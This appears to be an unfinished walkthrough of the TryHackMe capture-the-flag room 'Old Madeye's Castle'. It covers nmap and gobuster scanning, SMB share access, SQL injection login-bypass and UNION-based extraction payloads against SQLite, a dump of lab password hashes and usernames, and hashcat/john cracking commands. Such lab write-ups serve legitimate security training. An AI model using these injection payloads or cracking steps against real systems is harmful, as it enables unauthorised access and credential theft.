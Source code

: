 # Old Madeye's Castle

**Room Link:** [https://tryhackme.com/room/madeyescastle](https://tryhackme.com/room/madeyescastle)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>





### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/hosts
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://hogwartz-castle.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





```
' union select group_concat(tbl_name),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
=' union select group_concat(password),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- 
```

<figure><img src="../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sed 's/,/\n/g' pass.txt > passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
```

<figure><img src="../../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**results.txt**

```
c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
e1ed732e4aa925f0bf125ae8ed17dd2d5a1487f9ff97df63523aa481072b0b5ab7e85713c07e37d9f0c6f8b1840390fc713a4350943e7409a8541f15466d8b54
5628255048e956c9659ed4577ad15b4be4177ce9146e2a51bd6e1983ac3d5c0e451a0372407c1c7f70402c3357fc9509c24f44206987b1a31d43124f09641a8d
2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
79d9a8bef57568364cc6b4743f8c017c2dfd8fd6d450d9045ad640ab9815f18a69a4d2418a7998b4208d509d8e8e728c654c429095c16583cbf8660b02689905
e3c663d68c647e37c7170a45214caab9ca9a7d77b1a524c3b85cdaeaa68b2b5e740357de2508142bc915d7a16b97012925c221950fb671dd513848e33c33d22e
d3ccca898369a3f4cf73cbfc8daeeb08346edf688dc9b7b859e435fe36021a6845a75e4eddc7a932e38332f66524bd7876c0c613f620b2030ed2f89965823744
dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0
6535ee9d2b8d6f2438cf92da5a00724bd2539922c83ca19befedbe57859ceafd6d7b9db83bd83c26a1e070725f6f336e21cb40295ee07d87357c34b6774dd918
93b4f8ce01b44dd25c134d0517a496595b0b081cef6eb625e7eb6662cb12dd69c6437af2ed3a5972be8b05cc14a16f46b5d11f9e27e6550911ed3d0fe656e04d
9a311251255c890692dc84b7d7d66a1eefc5b89804cb74d16ff486927014d97502b2f790fbd7966d19e4fbb03b5eb7565afc9417992fc0c242870ea2fd863d6d
5ed63206a19b036f32851def04e90b8df081071aa8ca9fb35ef71e4daf5e6c6eab3b3fea1b6e50a45a46a7aee86e4327f73a00f48deb8ae2bf752f051563cc8b
87ac9f90f01b4b2ae775a7cb96a8a04d7ab7530282fd76224ee03eecab9114275540e4b6a2c52e890cf11f62aacb965be0c53c48c0e51bf731d046c5c3182aad
88344d6b7724bc0e6e3247d4912fa755a5a91c2276e08610462f6ea005d16fd5e305dfe566e7f1dd1a98afe1abfa38df3d9697cdc47ecbb26ac4d21349d09ba7
7f67af71e8cbb7188dd187b7da2386cc800ab8b863c9d0b2dce87c98a91b5511330a2ad4f7d73592b50a2a26c26970cfbd22f915d1967cd92569dbf5e24ac77e
8c8702dbb6de9829bcd6da8a47ab26308e9db7cb274b354e242a9811390462a51345f5101d7f081d36eea4ec199470162775c32cb1f4a96351dc385711619671
c809b40b7c3c0f095390f3cd96bb13864b7e8fd1670c6b1c05b1e26151be62782b97391b120cb4a8ee1d0c9b8fffaf12b44c9d084ae6041468ad5f12ec3d7a4e
68b519187b9e2552d555cb3e9183711b939f94dfe2f71bda0172ee8402acf074cc0f000611d68d2b8e9502fa7235c8a25d72da50916ad0689e00cb4f47283e9b
7eea93d53fbed3ba8f2fa3d25c5f16fe5eaff1f5371918e0845d2076a2e952a457390ad87d289bf25f9457032f14bb07dcd625d03f2f5ee5c887c09dc7107a66
e49608634f7de91d19e5e1b906e10c5a4a855a4fe32521f310727c9875e823c82b3e0347b32ef49ea44657e60e771d9e326d40ab60ce3a950145f1a7a79d3124
c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab
487daab566431e86172ed68f0836f3221592f91c94059a725d2fdca145f97e6258593929c37d0339ca68614a52f4df61953b930585c4968cedaaa836744c52a6
44b1fbcbcd576b8fd69bf2118a0c2b82ccf8a6a9ef2ae56e8978e6178e55b61d491f6fc152d07f97ca88c6b7532f25b8cd46279e8a2c915550d9176f19245798
a86fa315ce8ed4d8295bf6d0139f23ba80e918a54a132e214c92c76768f27ce002253834190412e33c9af4ea76befa066d5bdeb47363f228c509b812dc5d81df
a1f6e38be4bf9fd307efe4fe05522b8c3a9e37fc2c2930507e48cb5582d81f73814ffb543cef77b4b24a18e70e2670668d1a5b6e0b4cb34af9706890bd06bbc9
01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
d17604dbb5c92b99fe38648bbe4e0a0780f2f4155d58e7d6eddd38d6eceb62ae81e5e31a0a2105de30ba5504ea9c75175a79ed23cd18abcef0c8317ba693b953
ac67187c4d7e887cbaccc625209a8f7423cb4ad938ec8f50c0aa5002e02507c03930f02fab7fab971fb3f659a03cd224669b0e1d5b5a9098b2def90082dfdbd2
134d4410417fb1fc4bcd49abf4133b6de691de1ef0a4cdc3895581c6ad19a93737cd63cb8d177db90bd3c16e41ca04c85d778841e1206193edfebd4d6f028cdb
afcaf504e02b57f9b904d93ee9c1d2e563d109e1479409d96aa064e8fa1b8ef11c92bae56ddb54972e918e04c942bb3474222f041f80b189aa0efd22f372e802
6487592ed88c043e36f6ace6c8b6c59c13e0004f9751b0c3fdf796b1965c48607ac3cc4256cc0708e77eca8e2df35b668f5844200334300a17826c033b03fe29
af9f594822f37da8ed0de005b940158a0837060d3300be014fe4a12420a09d5ff98883d8502a2aaffd64b05c7b5a39cdeb5c57e3005c3d7e9cadb8bb3ad39ddb
53e7ea6c54bea76f1d905889fbc732d04fa5d7650497d5a27acc7f754e69768078c246a160a3a16c795ab71d4b565cde8fdfbe034a400841c7d6a37bdf1dab0d
11f9cd36ed06f0c166ec34ab06ab47f570a4ec3f69af98a3bb145589e4a221d11a09c785d8d3947490ae4cd6f5b5dc4eb730e4faeca2e1cf9990e35d4b136490
9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
4c968fc8f5b72fd21b50680dcddea130862c8a43721d8d605723778b836bcbbc0672d20a22874af855e113cba8878672b7e6d4fc8bf9e11bc59d5dd73eb9d10e
d4d5f4384c9034cd2c77a6bee5b17a732f028b2a4c00344c220fc0022a1efc0195018ca054772246a8d505617d2e5ed141401a1f32b804d15389b62496b60f24
36e2de7756026a8fc9989ac7b23cc6f3996595598c9696cca772f31a065830511ac3699bdfa1355419e07fd7889a32bf5cf72d6b73c571aac60a6287d0ab8c36
8f45b6396c0d993a8edc2c71c004a91404adc8e226d0ccf600bf2c78d33ca60ef5439ccbb9178da5f9f0cfd66f8404e7ccacbf9bdf32db5dae5dde2933ca60e6 
```





<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sed 's/,/\n/g' usernames.txt > users.txt 
```

**users.txt**

```
Lucas Washington
Harry Turner
Andrea Phillips
Liam Hernandez
Adam Jenkins
Landon Alexander
Kennedy Anderson
Sydney Wright
Aaliyah Sanders
Olivia Murphy
Olivia Ross
Grace Brooks
Jordan White
Diego Baker
Liam Ward
Carlos Barnes
Carlos Lopez
Oliver Gonzalez
Sophie Sanchez
Maya Sanders
Joshua Reed
Aaliyah Allen
Jasmine King
Jonathan Long
Samuel Anderson
Julian Robinson
Gianna Harris
Madelyn Morgan
Ella Garcia
Zoey Gonzales
Abigail Morgan
Joseph Rivera
Elizabeth Cook
Parker Cox
Savannah Torres
Aaliyah Williams
Blake Washington
Claire Miller
Brody Stewart
Kimberly Murphy
```



Stopped here

<figure><img src="../../../.gitbook/assets/image (392).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>









Notes

<figure><img src="../../../.gitbook/assets/image (388).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat --stdout -r /opt/hashcat/rules/best64.rule spellnames.txt > possible_passwords.txt
john --format=raw-sha512 results.txt --wordlist=possible_passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I used /usr/share/dirb/wordlists/common.txt as my payload

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>













###

###

###

###

###

###

###

###

###

###

###

###

###

###

###

### **TCP/445  - SMB**

**Kali**

```
smbclient -L //$VICTIM/
smbclient -L //$VICTIM/sambashare
smbclient \\\\$VICTIM\\sambashare
smb: \> ls  
smb: \> get .notes.txt  
smb: \> get spellnames.txt
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>















